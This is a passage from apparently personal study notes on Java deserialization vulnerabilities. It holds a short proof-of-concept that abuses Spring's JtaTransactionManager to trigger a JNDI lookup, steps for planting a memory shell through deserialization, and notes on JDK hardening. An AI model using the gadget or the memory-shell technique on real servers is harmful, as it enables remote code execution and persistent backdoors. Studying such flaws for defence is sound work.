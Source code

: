 `JtaTransactionManager` class will look up JNDI URL stored in `userTransactionName` when deserializing.
This vul is quite simple without needing to analyze. 
Poc:
```java
String jndiURL = null;  
if (command.toLowerCase().startsWith("jndi:")) {  
   jndiURL = command.substring(5);  
}  
  
JtaTransactionManager manager = new JtaTransactionManager();  
manager.setUserTransactionName(jndiURL);  
return manager;
```


---
# Tips
## Insert memory shell through deserialization vulnerability

1. Create a memory shell class(e.g. `EvilFilter`) and override the required method
2. Write code for inserting memory shell in a static code block of a certain class(normally the memory shell class itself)
3. Select a script engine(JavaScript, BeanShell, Python, etc.). Prepare the script code in which define an evil class to insert memory shell and create a new instance to trigger the static code block
4. Execute script through deserialization vulnerability.



---

## Fixes
### JDK fixes
#### Overview

This article[^1] introduces security updates for serialization in JDK1.8. In summary, there are three strengthening methods introduced in JDK1.8:
1. Override `ObjectInputStream`'s `resolveClass` or `resolveProxyClass` method
2. Use `ValidatingObjectInputStream` to decorate `ObjectInputStream` to deploy white-list validation
3. Create an `ObjectInputFilter` class overriding `checkInput` method, and decorate an `ObjectInputStream` via `setObjectInputFilter` method.

#### `AnnotationInvocationHandler`
Recall [[Java Deserialize Vulnerabilities, ysoserial study#CommonCollections1|the exploitation of CC1]], there are two handlers employed, one with a dynamic proxy as `memberValues`(i.e. outer handler) and another which is a member of the proxy object with a `LazyMap` as `memberValues`(i.e. inner handler). While deserialize, it comes in a depth-prior recursion, so the inner handler would be firstly deserialized, after all fields finish deserialization here comes to deserializing the proxy, later the outer handler. 
Let's take a look at the `AnnotationInvocationHandler`'s `readObject` in JDK1.8:
```java
private void readObject(java.io.ObjectInputStream s)  
    throws java.io.IOException, ClassNotFoundException {  
    ObjectInputStream.GetField fields = s.readFields();  
  
    @SuppressWarnings("unchecked")  
    Class<? extends Annotation> t = (Class<? extends Annotation>)fields.get("type", null);  
    @SuppressWarnings("unchecked")  
    Map<String, Object> streamVals = (Map<String, Object>)fields.get("memberValues", null);  
  
```

[^1]: [Paper/浅谈Java反序列化漏洞修复方案.md at master · Cryin/Paper](https://github.com/Cryin/Paper/blob/master/%E6%B5%85%E8%B0%88Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D%E6%96%B9%E6%A1%88.md)
